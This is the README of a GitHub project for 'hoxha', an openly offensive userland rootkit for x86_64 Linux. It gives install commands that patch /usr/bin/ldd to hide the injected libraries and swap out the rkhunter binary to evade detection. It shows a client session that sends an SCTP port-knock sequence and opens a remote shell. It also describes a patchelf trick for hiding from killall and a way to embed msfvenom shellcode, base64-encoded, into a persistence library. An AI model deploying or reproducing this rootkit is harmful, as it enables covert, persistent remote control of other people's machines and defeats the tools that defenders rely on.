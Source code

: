 # hoxha
A userland rootkit for x86_64 Linux that was meant to be everything <a href="https://github.com/mephistolist/tito">Tito</a> was not. As Enver Hoxha was Tito's next door neighbor and completely opposed in ideology, there was no more a fitting name. Hoxha was also known for being very paranoid, so a lot more detection-evasion was used.   

<p align="center">
  <img src="https://upload.wikimedia.org/wikipedia/commons/f/fe/Enver_Hoxha_%28portret%29.jpg" />
</p>

You can download this like so:
```
git clone https://github.com/mephistolist/hoxha.git
```
If you are not on a Debian based system, you will want to run this to change to the name of your python binary:
```
sed -i 's/python3/python/g' hoxha/persistance/libexec.c; sed -i 's/python3/python/g' hoxha/persistance/libhide.c  
```
Considering SCTP is installed and loaded in the kernel, you can install the rootkit this:
```
cd hoxha && sudo make install clean && cd persistance && [ -f ./patchelf ] && chmod +x ./patchelf && sudo make install clean && sudo sed -i 's/try_trace \"$RTLD\" \"$file\" || result=1/try_trace \"$RTLD\" \"$file\" | grep -vE \"libc.so.4|libc.so.5\" || result=1/g' /usr/bin/ldd && [ -f $(which rkhunter) ]  && sudo cp ./rkhunter $(which rkhunter) 2>/dev/null;
```
The client can be used with just the destionation ip address where this rootkit is installed:
```
# ./enver 127.0.0.1
[+] SCTP knock sequence sent.
[*] Connecting to SCTP shell at 127.0.0.1:5000...
[+] Connected. Type commands (type 'exit' to quit):
sctp-shell>
```
As SCTP ports are hard to close, I would suggest updating this with the paths to where you have the 'hoxha' folder and running this when exiting the shell:
```
/home/user/hoxha/persistance/patchelf --remove-needed /lib/x86_64-linux-gnu/libc.so.5 $(which killall) && killall -9 hoxha && systemctl restart cron && /home/user/hoxha/persistance/patchelf --add-needed /lib/x86_64-linux-gnu/libc.so.5 $(which killall)
```
This will ensure that only one port is left listening for future connections.

If you wish to edit or just build the shell from source you can do so by just typing 'make' the root directory. Using 'make install' will give a binary at /usr/bin/hoxha. You can then run this with msfvenom:
```
msfvenom -p linux/x64/exec CMD=/usr/bin/hoxha -f raw -o shellcode.bin -b "\x00\x0a\x0d"
```
Then you can base64 the raw data like so:
```
cat shellcode.bin | base64
```
Add that base64 encoded string to the hoxha/persistance/libexec.c file and re-run the Makefile in the persistance folder to apply your changes.

Currently tested for Debian Trixie with cron running and in your $PATH. Other distos and setups may work or require manual intervention. 
